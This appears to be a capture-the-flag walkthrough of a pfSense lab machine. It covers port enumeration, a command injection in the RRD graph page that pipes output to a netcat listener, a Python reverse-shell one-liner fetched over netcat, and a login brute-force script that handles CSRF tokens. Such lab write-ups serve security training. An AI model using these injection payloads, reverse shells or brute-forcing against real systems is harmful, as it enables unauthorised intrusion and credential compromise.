






# Enumeration
```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login
|_ssl-date: TLS randomness does not represent time
```
We find a webpage:

Now copying as curl command from burpsuite after intercepting a test login:
```bash
for i in $(seq 0 15); do
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.10.60' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Referer: https://10.10.10.60/' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 118' -H $'Origin: https://10.10.10.60' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' -H $'Te: trailers' -H $'Connection: close' \
    -b $'PHPSESSID=cc5f3189111a786c96a6f2f22db09759; cookie_test=1709355824' \
    --data-binary $'__csrf_magic=sid%3A0412e6b2e8e561be33172f221b0a66e1529b036f%2C1709352224&usernamefld=test&passwordfld=test&login=Login' \
    $'https://10.10.10.60/index.php'
echo $i
done
```
The box bans us after 15 attempts
# Method 1 
Using exploit from github
https://github.com/lawrencevanlaere/pfsense-code-exec/blob/master/pfsense_exec.py
`python3 pfsense_exec.py nc`


# Method 2
Following the third method here https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/

Opening the rrd graph:

Following the instructions and doing the following in burpsuite:
```http
GET /status_rrd_graph_img.php?&database=queues;whoami|nc+10.10.14.24+1234 HTTP/1.1
Host: 10.10.10.60
Cookie: PHPSESSID=cc5f3189111a786c96a6f2f22db09759; cookie_test=1709357032
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.10.10.60/status_rrd_graph.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
And listening on `nc -lnvp 1234` as there is no standard output

Now checking badchars with:
`echo+abc/|nc+10.10.14.24+1234`
Now we get no output
So / is a badchar.
Checking env with  `env|nc+10.10.14.24+1234`

We find that HOME is / so we can use backslash from there
Now can read user.txt and root.txt

For shell though we know that - and / are bad characters so using printf command:
To get -:
`x=$(printf+"\55");echo+$x|nc+10.10.14.24+1234 `

Now to get a reverse shell:
cmd as:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.22",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Now setting nc so that it sends the file cmd:
`nc -lnvp 9001 < cmd`
Then on burpsuite `nc 10.10.14.24 9001|python&`
Now we get a shell:

# BruteForce
First getting a post request in burpsuite:

Now copying the required part.
We need the csrfmagicktoken from the website so using ctrl+U

Now writing a python script to bruteforce the password:
```python
import requests
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

re_csrf = 'csrfMagicToken = "(.*?)"'
s = requests.session()
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
lines = open('passwords.txt')
for password in  lines:
        r = s.post('https://10.10.10.60/index.php',verify=False)
        csrf = re.findall(re_csrf,r.text)[0]
        login = {'__csrf_magic':csrf, 'usernamefld': 'rohit','passwordfld':password[:-1],'login':'Login'}
        r = s.post('https://10.10.10.60/index.php',data=login)
        if "Dashboard" in r.text:
                print("Valid Login %s:%s" % ("rohit",password))
        else:
                print("failed %s:%s" % ("rohit",password))
                s.cookies.clear()
```
Can use burpsuite proxy to intercept the request too.